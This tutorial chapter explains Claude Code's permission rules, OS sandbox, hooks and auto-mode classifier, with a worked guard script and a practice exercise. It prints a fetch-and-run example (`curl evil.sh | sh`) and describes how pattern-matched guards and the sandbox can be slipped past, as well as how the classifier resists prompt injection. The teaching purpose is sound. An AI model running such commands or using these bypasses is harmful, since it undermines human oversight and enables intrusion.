


# Hooks, permissions and auto mode

## Why this matters

A sentence in `CLAUDE.md` is a request. The model usually honours it, and sometimes it doesn't: the instruction was compacted away, or a long task drifted, or a prompt injection in a web page argued the other way. Permissions and hooks are the other half of the toolbox. They are code that Claude Code runs, so they apply whether or not the model remembers or agrees. Permissions decide what Claude may do without asking you. Hooks let you run your own code at points in the loop to block, rewrite, check or react. Together they turn "please don't" into "can't".

They also decide how autonomous you can afford to be. A session that asks before every shell command is safe and slow, and [Anthropic's own data](https://www.anthropic.com/research/claude-code-auto-mode) says people approve 93% of those prompts anyway, which trains you to stop reading them. A session with no checks is fast and one bad tool result away from a bad day. This chapter is about the middle: how to configure the rules, what the OS-level sandbox adds, what hooks can and cannot do, and how auto mode decides on your behalf.

[6.1](/part-06-claude-code/6.1-how-claude-code-works) gave you the loop and showed the permission check sitting between the model's tool call and the tool. This chapter opens that box. It leans on [5.4](/part-05-harnesses/5.4-mini-harness), where you built a permission gate yourself, and returns in Part 8 ([8.3](/part-08-production/8.3-sandboxing) on sandboxing) with a threat-model focus.

**Learning goals**

- Configure permission rules and modes
- Write hooks for formatting, guarding and notifications
- Explain how auto mode decides what is safe

## Explanation

### Three layers, three jobs

Claude Code has three separate mechanisms in this area. People mix them up, so name them first.

| Layer | What it is | Who enforces it | Covers |
|---|---|---|---|
| **Permission rules and modes** | A decision per tool call: allow, ask or deny | Claude Code, before the tool runs | Every tool: Bash, file tools, web, MCP, subagents |
| **Sandbox** | An operating-system boundary around shell commands | The OS (Seatbelt on macOS, bubblewrap on Linux) | Bash and the processes it starts; nothing else |
| **Hooks** | Your own commands, run at lifecycle events | Claude Code runs them; you wrote the logic | Whatever you write: block, rewrite, log, notify, format |

The docs' note on the first one is the sentence to remember: permission rules "are enforced by Claude Code, not by the model. Instructions in your prompt or `CLAUDE.md` shape what Claude tries to do, but they don't change what Claude Code allows" ([Configure permissions](https://code.claude.com/docs/en/permissions), "Manage permissions"). The rest of the chapter is these three layers, then auto mode, which is a fourth thing: a model standing in for the human at the permission prompt.



The diagram is a simplification (the docs list several exceptions, such as protected paths and some always-prompt cases), but the order is right: hooks first, then rules, then the mode, then execution, then more hooks.

### Permission rules

A rule is `Tool` or `Tool(specifier)`. There are three kinds: **allow** (no prompt), **ask** (always prompt) and **deny** (refuse). They are evaluated in the order deny, ask, allow, and the first match wins. Specificity does not change the order, so a broad deny such as `Bash(aws *)` beats a narrower allow such as `Bash(aws s3 ls)`: "An allow rule can't carve an exception out of a deny rule" ([Configure permissions](https://code.claude.com/docs/en/permissions), "Manage permissions"). Compare that with the last-match-wins design you had the choice of in [5.4](/part-05-harnesses/5.4-mini-harness): Claude Code picked deny-first, which is the safer default because adding an allow can never loosen a deny.

The specifier syntax depends on the tool ([Configure permissions](https://code.claude.com/docs/en/permissions), "Permission rule syntax"):

| Rule | Meaning |
|---|---|
| `Bash` | Every shell command (as a deny rule it removes the tool from Claude's context entirely) |
| `Bash(npm run build)` | Exactly that command |
| `Bash(git push *)` | Commands starting with `git push`, with a wildcard |
| `Read(./.env)` | Reading that file |
| `Read(./secrets/**)` | Reading anything under that directory |
| `WebFetch(domain:example.com)` | Fetches to one domain |

A deny rule on a bare tool name and one with a specifier behave differently: the first removes the tool from the model's view, the second leaves the tool and refuses matching calls when attempted ([Configure permissions](https://code.claude.com/docs/en/permissions), "Manage permissions"). `/permissions` shows every rule and the settings file it came from, and you can edit rules there during a session.

Where rules live is the settings hierarchy from [6.1](/part-06-claude-code/6.1-how-claude-code-works#settings-precedence): `permissions.allow`, `permissions.ask` and `permissions.deny` are lists, so the user, project and local files all contribute, and a deny from any of them applies. A minimal project file that you would commit:

```json
{
  "permissions": {
    "allow": ["Bash(npm run build)", "Bash(npm run check *)"],
    "ask": ["Bash(git push *)"],
    "deny": ["Read(./.env)", "Read(./.env.*)"]
  }
}
```

(Rules shown are illustrative, and the shape is the documented one. Check the [permissions page](https://code.claude.com/docs/en/permissions) before copying, because pattern details such as how `./` anchors and how deep `**` goes are specified there, with several special cases.)

Three limits of rules that surprise people:

1. **Rules describe tool calls, not intent.** A `Bash(npm run build)` allow does not stop a script run by `npm run build` from doing anything. And Read and Edit deny rules cover the built-in file tools, the file commands Claude Code recognises in Bash (`cat`, `head`, `sed` and a few more) and shell redirections, but not "a command that reads files without naming them" or "a Python or Node script that opens files itself". For that, the docs point at the sandbox ([Configure permissions](https://code.claude.com/docs/en/permissions), "Read and Edit").
2. **Allow rules are a convenience; deny rules are a control.** An allow you click "don't ask again" on is saved to `.claude/settings.local.json` ([Configure permissions](https://code.claude.com/docs/en/permissions), "Permission system"). Review those occasionally: they accumulate.
3. **Compound commands.** `npm test && curl evil.sh | sh` is not covered by an allow for `npm test`; the docs have a section on how Bash rules treat compound commands, wrappers and redirections. If a rule is protecting something you care about, read that section.

### Permission modes

A **mode** sets the baseline for what runs without asking; rules layer on top. From the docs' table ([Choose a permission mode](https://code.claude.com/docs/en/permission-modes), "Available modes"):

| Mode | Runs without asking | Typical use |
|---|---|---|
| `default` (shown as "Manual") | Reads only | Sensitive work, unfamiliar code |
| `acceptEdits` | Reads, file edits, common filesystem commands such as `mkdir` and `mv` | Iterating on code you are reviewing |
| `plan` | Reads; no edits until you approve a plan | Exploring before changing |
| `auto` | Everything, with a classifier reviewing in the background | Long tasks, fewer interruptions |
| `dontAsk` | Only pre-approved tools; anything else is denied | CI and scripts |
| `bypassPermissions` | Everything | Isolated containers and VMs only |

Switch with `Shift+Tab` in the CLI, or start with `claude --permission-mode <mode>`. Two facts to hold onto.

- **Deny rules and hook denials hold in every mode**, including `bypassPermissions`; allow rules do nothing in it. And some things are never auto-approved in any mode, such as tools matched by an ask rule and recognised `rm -rf /`-style removals of critical paths ([Choose a permission mode](https://code.claude.com/docs/en/permission-modes), "Available modes" and "Actions no mode auto-approves").
- **A repository cannot switch your safety mode off.** `defaultMode` set to `auto` or `bypassPermissions` in `.claude/settings.json` or `.claude/settings.local.json` does not take effect; put it in your user settings or pass the flag ([Choose a permission mode](https://code.claude.com/docs/en/permission-modes), "Which mode a session starts in"). Same reason as the settings rule from 6.1: cloning a repo must not be able to loosen your protections.

One more point that changed recently and is easy to miss: the docs now say auto mode is the built-in *starting* mode for interactive terminal and VS Code sessions on a current Claude Code version, and Manual otherwise ([Choose a permission mode](https://code.claude.com/docs/en/permission-modes), "Which mode a session starts in"). If you learned Claude Code earlier, your memory of "it asks for everything" may be out of date. Check which mode your session shows before you reason about prompts.

### The sandbox

Permission rules decide whether a command may start. The sandbox limits what it can reach once it runs. Anthropic's announcement describes it as OS-level isolation with two boundaries, and says it needs both: "Without network isolation, a compromised agent could exfiltrate sensitive files like SSH keys; without filesystem isolation, a compromised agent could easily escape the sandbox and gain network access." The filesystem boundary allows read and write in the working directory and blocks writes outside it; network access goes through a proxy that enforces a domain allowlist and asks you about new domains. It is built on Linux bubblewrap and macOS Seatbelt, so it covers scripts and subprocesses the command spawns ([Making Claude Code safer with sandboxing](https://www.anthropic.com/research/claude-code-sandboxing)). On the same page, Anthropic reports that in its internal usage sandboxing "safely reduces permission prompts by 84%": a figure from the company's own usage, not an independent measurement.

What the docs add for day-to-day use ([Configure the sandboxed Bash tool](https://code.claude.com/docs/en/sandboxing)):

- **Off by default.** Turn it on with `/sandbox` or `sandbox.enabled: true` in a settings file. It runs on macOS, Linux and WSL2, not native Windows.
- **Two modes.** In *auto-allow*, a command that runs inside the sandbox needs no prompt (deny rules and content-scoped ask rules such as `Bash(git push *)` still apply). In *regular permissions*, every command still goes through the normal flow.
- **It covers shell commands only.** Claude's file tools, MCP servers and hooks "run outside it". A `denyRead` entry in the sandbox config does not stop the Read tool; a Read deny *rule* does. This is why the two layers are used together, and why a permission rule on `.env` and a sandbox restriction are both worth having.
- **There is an escape hatch.** When a command fails inside the sandbox, Claude may retry with `dangerouslyDisableSandbox`; who approves that retry depends on the permission mode, and strict sandbox mode turns the retry off. A sandbox that the model can ask its way out of is a prompt with extra steps, so read what the retry does in your mode.
- **Run inside a container for the rest.** To put hooks, MCP servers and file tools behind one boundary, run the whole Claude Code process in a container or VM (the docs' own suggestion, on the same page).

Part 8 ([8.3](/part-08-production/8.3-sandboxing)) takes the sandbox further. For now, the rule of thumb: **rules for intent, sandbox for blast radius.**

::: info 📖 Read now
[Making Claude Code safer with sandboxing](https://www.anthropic.com/research/claude-code-sandboxing) · article · ~10 min · **essential**

Look for: why the post insists on filesystem *and* network isolation together, how the network proxy handles a domain you have not allowed yet, and the "approval fatigue" argument at the start. Then ask: in the setup the post describes, what would a prompt-injected command still be able to do, and does your answer change if the command runs through an MCP server instead of Bash?
:::

### Hooks

A **hook** is a command (or an HTTP call, or an LLM prompt) that Claude Code runs at a named point in its lifecycle. The docs' framing is the useful one: hooks "give you deterministic control: certain actions always happen rather than relying on the LLM to choose to run them" ([Automate actions with hooks](https://code.claude.com/docs/en/hooks-guide)).

A hook has three parts: an **event** (when), a **matcher** (which tool or source), and a **handler** (what to run). This one is the docs' formatter example:

```json
{
  "hooks": {
    "PostToolUse": [
      {
        "matcher": "Edit|Write",
        "hooks": [
          { "type": "command", "command": "jq -r '.tool_input.file_path' | xargs npx prettier --write" }
        ]
      }
    ]
  }
}
```

Read it from the outside in: after any tool call completes successfully (`PostToolUse`), if the tool is `Edit` or `Write` (matcher), run this shell command. The command receives a JSON description of the event on **stdin**: for tool events it has `tool_name` and `tool_input` (for Bash, `tool_input.command`; for the file tools, `tool_input.file_path`), plus fields such as `session_id` and `cwd` ([Automate actions with hooks](https://code.claude.com/docs/en/hooks-guide), "Read input and return output"). The command talks back with its exit code and output.

#### The events that matter

The guide lists more than thirty events ([Automate actions with hooks](https://code.claude.com/docs/en/hooks-guide), "How hooks work"; the [reference](https://code.claude.com/docs/en/hooks) has each schema). You will use a handful:

| Event | Fires | Typical use | Can block? |
|---|---|---|---|
| `PreToolUse` | Before a tool call runs | Guard: refuse commands or paths, rewrite input | Yes |
| `PostToolUse` | After a tool call succeeds | Format, lint, build, log; tell Claude about a problem | No (tool already ran); stderr goes to Claude |
| `UserPromptSubmit` | A prompt is submitted | Add context (branch, ticket) to every prompt | Yes |
| `Notification` | Claude Code sends a notification (needs permission, idle) | Desktop or phone alert | No |
| `Stop` | Claude finishes responding | Check the work is done; keep Claude going | Yes (exit 2 makes it continue) |
| `SessionStart` | Session begins, resumes or compacts | Re-inject context | No |
| `PreCompact` / `PostCompact` | Around context compaction | Save or restore what compaction would drop | — |
| `PermissionRequest` / `PermissionDenied` | A permission decision is needed / auto mode denied a call | Auto-answer a prompt; let a denied call be retried | See reference |

The "can block" column is from the reference's exit-code-2 table ([Hooks reference](https://code.claude.com/docs/en/hooks), "Exit code 2 behavior per event"). The table is the reason to think about *which event* before writing code: a formatter cannot be a `PreToolUse` hook (the file has not been written yet), and a guard cannot be a `PostToolUse` hook (the damage is done).

#### Talking back: exit codes and JSON

Two ways to answer, and the docs say to "choose one approach per hook" ([Automate actions with hooks](https://code.claude.com/docs/en/hooks-guide), "Hook output"):

- **Exit codes.** Exit 0 means "no objection": for `PreToolUse` the call continues through the *normal permission flow*, because exit 0 does not approve it. Exit 2 means block, with stderr fed back to Claude (for `PreToolUse`) so it can adjust. Other non-zero exits are non-blocking errors for most events.
- **JSON on stdout, with exit 0.** For `PreToolUse`: `permissionDecision` of `"deny"`, `"ask"` or `"allow"` and a `permissionDecisionReason`. Other events use other shapes (`PostToolUse` and `Stop` use a top-level `decision: "block"`; `UserPromptSubmit` can return `additionalContext` nested in `hookSpecificOutput`), so look up the event.

A guard, for the failure the auto-mode post lists as a default block (force-push), as a plain script:

```bash
#!/bin/bash
# .claude/hooks/no-force-push.sh — reads the event JSON from stdin
COMMAND=$(jq -r '.tool_input.command // empty')
if echo "$COMMAND" | grep -Eq 'git push.*(--force|-f)( |$)'; then
  echo "Blocked: force-push. Push without --force, or ask the user." >&2
  exit 2          # exit 2 = block; stderr becomes Claude's feedback
fi
exit 0            # exit 0 = no objection; normal permission flow continues
```

Registered under `PreToolUse` with matcher `Bash`, this refuses any `git push --force`. (I ran the script by hand with both a force-push and a plain push as the JSON on stdin: it exits 2 with the message, and 0, respectively. I did not run it inside Claude Code.) Notice what it cannot do. It matches text, so `git push origin +main` or an alias slips through, and a determined or injected model has many ways to say the same thing. The docs make the same point about the `if` filter: because matching on a command is best-effort, "use the permission system rather than a hook to enforce a hard allow or deny" ([Automate actions with hooks](https://code.claude.com/docs/en/hooks-guide), "Filter hooks with matchers"). Hooks are exact about *what you wrote* and only as good as your pattern.

#### Precedence: what a hook can and cannot override

The permissions page is explicit, and it is the most important paragraph about hooks:

- A `PreToolUse` hook that blocks (exit 2, or `"deny"`) wins over allow rules, and holds even in `bypassPermissions` mode.
- A hook that returns `"allow"` does **not** override deny rules or ask rules, including those from managed settings, and cannot suppress prompts such as the always-ask cases.

([Configure permissions](https://code.claude.com/docs/en/permissions), "Precedence among rules, hooks, and mods"; [Automate actions with hooks](https://code.claude.com/docs/en/hooks-guide), "Hooks and permission modes".) So hooks can *tighten* in every mode and can *loosen* only up to what your rules already allow. That asymmetry is the design: a team can ship a `PreToolUse` guard in the repo and no permission mode lets a developer step around it by accident.

#### Where hooks live, and what they cannot see

Hooks go in the same settings files as rules: `~/.claude/settings.json` (all your projects), `.claude/settings.json` (this project, committed), `.claude/settings.local.json` (yours, not committed), managed settings, plugins, and skill or subagent frontmatter ([Automate actions with hooks](https://code.claude.com/docs/en/hooks-guide), "Configure hook location"). `/hooks` lists what is configured. Four gotchas, all from the docs:

1. **`PostToolUse` on `Edit|Write` misses shell writes.** If `sed -i` or a build step changes a file, the formatter hook does not run. The docs' fixes are a `FileChanged` hook, or a `Stop` hook that checks the working tree once per turn ([Automate actions with hooks](https://code.claude.com/docs/en/hooks-guide), "Filter hooks with matchers"; [Hooks reference](https://code.claude.com/docs/en/hooks), "PostToolUse").
2. **Hooks run outside the sandbox**, with your full access ([Configure the sandboxed Bash tool](https://code.claude.com/docs/en/sandboxing), "What runs outside the sandbox"). A hook script is code you wrote and trust; treat hooks from a cloned repo like any script from a cloned repo.
3. **Matchers match canonical tool names.** A tool shown with a friendly label in the transcript may have a different name for rules and matchers ([Configure permissions](https://code.claude.com/docs/en/permissions), "Match all uses of a tool").
4. **Timeouts and stalls.** Command hooks default to a 10-minute timeout, and a few events are much shorter (for example `UserPromptSubmit` at 30 seconds) ([Automate actions with hooks](https://code.claude.com/docs/en/hooks-guide), "Limitations"). A slow hook on a frequent event makes every turn slower. Put the slow thing on `Stop` or run it in the background.

Beyond `command` handlers there are `http`, `prompt` (a single LLM judgement) and `agent` (a multi-turn check with tools, marked experimental) hooks. The guide's advice is to use the LLM types "for decisions that require judgment rather than deterministic rules". Start with command hooks: they are free, fast and predictable.

::: info 📖 Read now
[Automate actions with hooks](https://code.claude.com/docs/en/hooks-guide) · docs · ~30 min · **essential**

Look for: the notification, auto-format and protect-files recipes (you will adapt two of them in the practice), the "How hooks work" event table, and the "Hooks and permission modes" section. Then read "Limitations and troubleshooting" and write down the first thing you would check if a hook silently did nothing.
:::

::: tip ▶️ Reference
[Hooks reference](https://code.claude.com/docs/en/hooks) · docs · ~20 min to skim · optional

Do not read it linearly. Use it when you write a hook: the "Hook input and output" section for the exact JSON for your event, and "Exit code 2 behavior per event" before you rely on blocking.
:::

### Auto mode

Manual mode is safe and noisy. `bypassPermissions` is silent and unprotected. Auto mode is Anthropic's attempt at the middle: it "delegates approvals to model-based classifiers" so that routine actions run without a prompt and dangerous ones are caught ([How we built Claude Code auto mode](https://www.anthropic.com/research/claude-code-auto-mode)). The engineering post is the primary source for how it works and is worth reading in full. This section summarises it, then links the current docs for anything that may have changed since, because that post is dated 25 March 2026 and the docs have moved since.

#### What it defends against

The post names four causes of a dangerous action: **overeager behaviour** (the agent understands your goal but acts past what you authorised, such as using a credential it found), **honest mistakes** about blast radius, **prompt injection**, and a **misaligned model**. It says the incident log of overeager behaviour included deleting remote git branches from a misread instruction and attempting migrations against a production database. The first two are the main target: they look like reasonable problem-solving, which is why a keyword list would not catch them.

#### The decision order

Not every action reaches the classifier. The post describes three tiers, and the docs list the same order as a fixed sequence in which "the first matching step wins" ([How we built Claude Code auto mode](https://www.anthropic.com/research/claude-code-auto-mode), "How permission decisions work"; [Choose a permission mode](https://code.claude.com/docs/en/permission-modes), "How auto mode evaluates actions"):



Two details with consequences for how you configure things:

- **Broad allow rules are dropped on entering auto mode.** Blanket `Bash(*)`, wildcarded interpreters like `Bash(python*)`, package-manager run commands and `Agent` allow rules stop applying (narrow rules such as `Bash(npm test)` stay, and the dropped ones are restored when you leave), because with them the classifier "never sees the commands most capable of causing damage" ([Choose a permission mode](https://code.claude.com/docs/en/permission-modes), "How auto mode evaluates actions"; the post, "How permission decisions work"). Writing a narrow allow for a formatter or test command is the right way to speed up auto mode.
- **The classifier trusts very little by default.** By default it trusts only your working directory and the remotes configured for it at session start; everything else is external until you configure trusted infrastructure ([Choose a permission mode](https://code.claude.com/docs/en/permission-modes), "What the classifier blocks by default").

#### What the classifier sees, and why

The design choices are the part worth understanding, because they are choices you would face building your own gate:

- **It is reasoning-blind.** It sees your messages and the agent's tool calls, not Claude's own prose and not tool results. The post gives two reasons: so the agent cannot "talk the classifier into making a bad call" with a persuasive rationalisation, and because tool results are where injected content enters, so stripping them is the main injection defence at this layer. The docs add that your `CLAUDE.md` content is also visible to it ([Choose a permission mode](https://code.claude.com/docs/en/permission-modes), "How auto mode evaluates actions").
- **It judges the action, not the wrapper.** Per the post, if the agent writes a payload to a file and runs it, the classifier evaluates the payload; a `&&` chain is one action.
- **Authorisation is narrow.** The post's examples: "clean up my branches" does not authorise a batch delete, and "can we fix this?" is a question, not a directive. The docs add that boundaries you state in conversation ("don't push") are read as block signals, but they are re-read from the transcript, so compaction can drop them: "For a hard guarantee, add a deny rule instead" ([Choose a permission mode](https://code.claude.com/docs/en/permission-modes), "Boundaries you state in conversation").
- **Two stages.** A fast single-token filter tuned to block when unsure, then reasoning only if flagged; the post reports the false-positive rate dropping from 8.5% to 0.4% with the second stage, on its own internal traffic of 10,000 real tool calls.
- **A second layer for what Claude reads.** A server-side prompt-injection probe scans tool results and adds a warning to Claude's context when content looks like an attempt to hijack it. The post's argument is that an attack must beat the probe and then steer the agent into a call the classifier independently judges safe, and the classifier never saw the payload.
- **Deny and continue.** A denial goes back to Claude as a tool result so it can try something safer; after 3 denials in a row or 20 in total, auto mode pauses and you are asked, and in non-interactive runs the process is terminated according to the post (the docs describe it differently for `-p` runs, noting the action does not run and Claude keeps working; treat the docs as current). The counts are not configurable ([Choose a permission mode](https://code.claude.com/docs/en/permission-modes), "When auto mode falls back").
- **Subagents are checked at both ends.** The task is evaluated when delegated and the result when returned.

#### How much to trust it

The post is unusually candid, and you should read the numbers as the authors' own. On 52 real overeager actions the full pipeline missed 17%; on 1,000 synthetic exfiltration attempts it missed 5.7% (both from the post's results table, Anthropic's evaluation, with the small real sample the authors call out). Its verdict: if you are running `--dangerously-skip-permissions`, this is a substantial improvement; "If you are manually approving every action carefully, it's arguably a regression"; and it "is not a drop-in replacement for careful human review on high-stakes infrastructure". The docs carry a warning in the same spirit: auto mode "reduces permission prompts but does not guarantee safety".

Which models and plans support it, and which model runs the classifier, change over time; the current list is on the [permission modes page](https://code.claude.com/docs/en/permission-modes#eliminate-permission-prompts-with-auto-mode), and model names and prices belong to [Landscape](/landscape#anthropic), not here. Customisation (trusted infrastructure, your own block and allow rules) is in the [auto mode configuration docs](https://code.claude.com/docs/en/auto-mode-config) (not read for this chapter).

::: info 📖 Read now
[How we built Claude Code auto mode](https://www.anthropic.com/research/claude-code-auto-mode) · article · ~20 min · **essential**

Look for: the threat model (four causes), the three tiers, and "Why we strip assistant text and tool results" in the design decisions. Then the results section: find the number the authors call "the honest number" and the reason most misses happen. As you read, compare the design with the permission gate you built in [5.4](/part-05-harnesses/5.4-mini-harness): what does auto mode add that a fixed rule list cannot?
:::

::: info 📖 Read now
[Choose a permission mode](https://code.claude.com/docs/en/permission-modes) · docs · ~25 min · **essential**

Look for: "Available modes", "Which mode a session starts in", "What the classifier blocks by default", "How auto mode evaluates actions" and "When auto mode falls back". This is the current version of what the article describes, so where they differ, believe the docs.
:::

### Hooks versus instructions

You now have two ways to shape what Claude does: instructions (`CLAUDE.md` from [6.2](/part-06-claude-code/6.2-claude-md-and-memory), skills from [6.3](/part-06-claude-code/6.3-skills)) and enforcement (rules, hooks, sandbox). Choose by what happens when the model gets it wrong.

| | Instructions | Rules, hooks and sandbox |
|---|---|---|
| Who follows them | The model, by judgment | Claude Code or the OS, by code |
| Failure mode | Forgotten after compaction, drifts, can be argued out of by injected text | Wrong pattern (misses a case), or too strict (blocks legitimate work) |
| Good for | Style, conventions, how to approach a task, "prefer X over Y" | Things that must never or always happen: formatting, secrets, destructive commands, notifications |
| Cost | Tokens every session | A process per matching event |
| Feedback to Claude | Implicit | A reason in stderr or JSON, which Claude reads and adapts to |

A useful test: **"if this were ignored once, would I be unhappy or in trouble?"** Unhappy: put it in `CLAUDE.md`. In trouble (leaked secret, force-pushed history, production deploy): make it code. And often both: the instruction saves a wasted attempt ("don't read `.env`; use `.env.example`") and the deny rule or hook is the backstop that makes the instruction safe to rely on.

The 6.3 chapter ended on the same idea for skills: a skill is read by the model, a hook runs whether or not the model followed the skill. Hooks also handle the "always" side of the pair, which instructions are weakest at: "always run the formatter after editing" as a sentence gets skipped on long tasks; as a `PostToolUse` hook it never does.

Two cautions. Do not turn every preference into a hook: each is code to maintain, and an over-strict guard makes Claude flail (it sees the reason, tries a variant, hits the wall again). And do not trust a hook more than its pattern: the text-matching guard above is a speed bump for an honest mistake, not a wall against an adversary. For an adversary, rules plus the sandbox plus a container.

### A worked configuration

A reasonable starting point for a project like this book, combining the layers (shape illustrative; verify key names against the docs before you rely on it):

1. **Mode:** default to the built-in; use `plan` when exploring; never put `bypassPermissions` in a project file (it would not apply anyway).
2. **Rules:** allow the commands you run constantly and that are narrow (`Bash(npm run check *)`); ask on `git push *`; deny reads of `.env` and `.env.*`.
3. **Sandbox:** on, in auto-allow, with the network allowlist set to the hosts the project needs.
4. **Hooks:** a `Notification` hook for when you step away, a `PostToolUse` formatter or build check for files that are cheap to verify, and a `PreToolUse` guard for the one or two commands that would cost you the most.
5. **Instructions:** `CLAUDE.md` says what the hooks and rules do not, and why.

## Practice

**Brief:** Add two hooks to this repo: one that runs `npm run build` after book edits, and one that blocks reading `.env`. Test both.

**Where:** `experiments/28-hooks/`: a standalone experiment, not a `project/` step. The folder holds your hook scripts, a copy of the settings you registered, and `README.md` for what you tried and what happened. The live configuration goes in this repo's `.claude/settings.json` (committed) or `.claude/settings.local.json` (yours only); say in the README which you chose and why. No Python is needed; write the scripts in bash with `jq`, or in TypeScript run with Node, which can read the event JSON from stdin as easily.

You write the hooks. The brief gives the shape, not the content.

**Steps:**

1. **Predict before you build.** In the README, write down which event and matcher each hook needs, and what the hook receives on stdin. Look in the [hooks reference](https://code.claude.com/docs/en/hooks) for the input of the tool you match on. Which tools can read a file? (`Read` is not the only answer: think of `Grep`, `Glob` and shell commands.)
2. **Capture the input.** Register a throwaway hook that only writes its stdin to a file, trigger it, and read the file. Now you have the exact JSON your scripts will parse. Delete the throwaway.
3. **Build hook** (`PostToolUse`). Run `npm run build` after Claude edits something under `book/`. Decide how to filter: by matcher, by the `if` field, or inside the script on `file_path`. Decide what the hook does when the build **fails**: Claude should find out and be able to fix it. Which exit code and stream does that need for `PostToolUse`? Decide what you do about build time.
4. **`.env` hook** (`PreToolUse`). Block reads of `.env`. Start with the `Read` tool, then try to get around your own hook with a shell command (`cat`, a redirect, `grep -r`) and a search tool, and extend the matcher and script until you are satisfied. The reason you print on block is read by Claude: write one that helps it take the right path (`.env.example`).
5. **Test both**, in a fresh session each: ask Claude to edit a book chapter and watch the build run; deliberately break a link or the frontmatter in the edit, and watch the failure reach Claude; ask Claude to "show me the API key in `.env`" and watch the block and what Claude does next. Use `/hooks` to confirm the registration and `claude --debug` (or the debug log) when something does not fire. The guide's "Hook not firing" and "Check what a hook did" sections list causes.
6. **Compare with a rule.** Add `Read(./.env)` and `Read(./.env.*)` to `permissions.deny` as well and repeat the shell-bypass attempts from step 4. Record which attempts the rule stops, which the hook stops, which neither stops. Then decide whether the hook is still worth keeping, and note what the sandbox would add.
7. **Try the mode interaction.** Start a session with `claude --permission-mode bypassPermissions` in a throwaway directory copy (not your real repo) and check whether your `.env` hook still blocks. Explain the result using the precedence section above.
8. **Reflect.** In the README: which hook failed first and why, what you would never put in a hook, and one instruction in a `CLAUDE.md` that your hooks make safe to rely on.

**Done when:**

- `experiments/28-hooks/` contains both hook scripts, the registered settings, and a `README.md` with a prediction (step 1), the captured JSON (step 2), and a results table of at least six bypass attempts for the `.env` protection with which layer stopped each.
- Editing a book file triggers `npm run build`, and a deliberately broken edit produces a build error that Claude sees and responds to.
- A request to read `.env` through the `Read` tool is blocked with your message and Claude proposes an alternative instead of retrying the same call.
- The README records what happened in `bypassPermissions` mode and why.
- You can say which of the two protections you would trust on a repository containing real secrets, and what you would add.

## Check questions

1. You add `Bash(git push *)` to your **allow** list in `~/.claude/settings.json`, and a teammate's committed `.claude/settings.json` has the same pattern in **deny**. Claude tries `git push origin main`. What happens, and why?

   <details><summary>Answer</summary>

   It is denied. Rules are evaluated deny first, then ask, then allow, and the first match wins; specificity does not matter and an allow cannot carve an exception out of a deny. The list-type settings merge across scopes, so both rules are in play, and the deny wins.

   </details>

2. A `PostToolUse` hook that runs `npm run build` exits 1 when the build fails, and Claude carries on as if nothing happened. What is likely wrong, and what should the hook do?

   <details><summary>Answer</summary>

   For most events a non-zero exit other than 2 is a non-blocking error: the transcript shows a hook-error notice, but Claude is not told. `PostToolUse` cannot block (the tool already ran), but exit code 2 shows stderr to Claude, so the hook should write the build error (trimmed to the useful lines) to stderr and exit 2. The hook's output also does not land anywhere you see on success, so test failure on purpose.

   </details>

